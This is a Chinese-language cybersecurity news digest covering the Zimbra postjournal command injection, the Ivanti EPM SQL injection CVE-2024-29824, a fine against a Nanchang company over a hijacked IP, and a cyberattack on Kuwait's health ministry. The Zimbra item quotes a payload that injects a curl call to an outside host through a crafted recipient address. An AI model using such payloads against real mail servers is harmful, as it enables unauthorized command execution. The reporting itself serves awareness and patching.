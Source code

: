 尽管如此，攻击活动似乎是在 Project Discovery 发布该漏洞的技术细节后的第二天开始的，该细节称“该漏洞源于未修补版本中未经清理的用户输入被传递给popen，从而使攻击者能够注入任意命令”。  
  
该网络安全公司表示，问题根源在于基于 C 的 postjournal 二进制文件在名为“msg_handler()”的函数中处理和解析收件人电子邮件地址的方式，从而允许在传递带有虚假地址的特制 SMTP 消息（例如“aabbb$(curl${IFS}oast.me)”@mail.domain.com）时对运行在端口 10027 上的服务进行命令注入。  
  
鉴于积极的攻击尝试，强烈建议用户应用最新补丁，以获得最佳的防护以抵御潜在威胁。  
  
  
参考链接：  
  
https://thehackernews.com/2024/10/researchers-sound-alarm-on-active.html  
  
  
**2.****Ivanti Endpoint Manager SQL注入漏洞(CVE-2024-29824)**  
  
  
10月2日，美国网络安全和基础设施安全局 (CISA) 根据主动利用的证据，添加了一个影响 Ivanti 端点管理器 (EPM) 的安全漏洞，该公司于 5 月份将该漏洞添加到其已知被利用漏洞 ( KEV ) 目录中。该漏洞的编号为 CVE-2024-29824，CVSS 评分为 9.6，严重程度极高。  
  
该软件服务提供商在 2024 年 5 月 21 日发布的公告中表示：“Ivanti EPM 2022 SU5 及之前版本的核心服务器中存在一个未指定的 SQL 注入漏洞，允许同一网络内的未经身份验证的攻击者执行任意代码。”  
  
Horizon3.ai于 6 月份发布了针对该漏洞的概念验证 (PoC) 漏洞，并表示该问题根源在于名为 PatchBiz.dll 的 DLL 中的 RecordGoodApp() 函数。具体来说，它涉及该函数如何处理 SQL 查询语句，从而允许攻击者通过 xp_cmdshell 获得远程代码执行。  
  
目前该漏洞具体如何被利用暂未公开，但 Ivanti 已更新公告，称其已“确认 CVE-2024-29824 遭利用”，且“有限数量的客户”已成为攻击目标。  
  
建议使用受影响版本的客户对其 Ivanti 端点解决方案应用修复程序，如果无法修复，建议立即停止使用。  
  
  
参考链接：  
  
https://thehackernews.com/2024/10/ivanti-endpoint-manager-flaw-actively.html  
  
**PART****0****2**  
  
  
**安全事件**  
  
  
**1.南昌市某企业IP疑被黑客远控并滥用，当地网信办罚款5万元**  
  
  
9月30日网信南昌公众号消息，南昌市网信办在日常的网络安全监测中发现，属地企业所属IP疑似被黑客远控，频繁对外发起网络爆破攻击。经过立案调查、现场勘验、远程勘验（采样技术分析）、笔录问询等工作，查明：1.该企业未履行网络安全保护义务，未对运营的网络及信息系统开展网络安全等级保护测评等相关工作，并采取防范计算机病毒和网络攻击等危害网络安全行为的技术措施；2.该企业未及时处置计算机病毒、网络攻击等安全风险，所属终端感染木马病毒，持续对外发起网络攻击，导致产生危害网络安全的后果。相关行为违反了《中华人民共和国网络安全法》第二十一条、第二十五条的规定。9月29日，南昌市网信办依据《中华人民共和国网络安全法》第五十九条的规定，对该企业作出罚款5万元、对直接负责的主管人员作出罚款1万元的行政处罚。  
  
  
原文链接：  
  
https://mp.weixin.qq.com/s/ZjVIDs_InjgXMa5q7cuS3w  
  
  
**2.科威特卫生部被黑，致使国内多个医疗服务中断**  
  
  
9月27日The Record消息，中东国家科威特的卫生部日前遭遇网络攻击，导致该国多家医院的系统瘫痪，国家医疗应用Sahel也因此下线。截至9月26日下午，卫生部官网仍处于瘫痪状态。该部门通过科威特通讯社发布声明称，政府通过备份数据，已经成功恢复了科威特癌症控制中心的系统，以及国家健康保险和外籍人员体检管理办公室的相关系统。声明还称，黑客未能攻入“核心数据库”，但为进行必要的安全更新，卫生部不得不暂时关闭部分系统。卫生部没有提供系统全面恢复的确切时间表，仅表示恢复工作将很快完成。目前尚无任何勒索软件组织对这次攻击事件宣称负责。  
  
  
原文链接：  
  
https://therecord.media/kuwait-ministry-restoring-systems-cyberattack  
  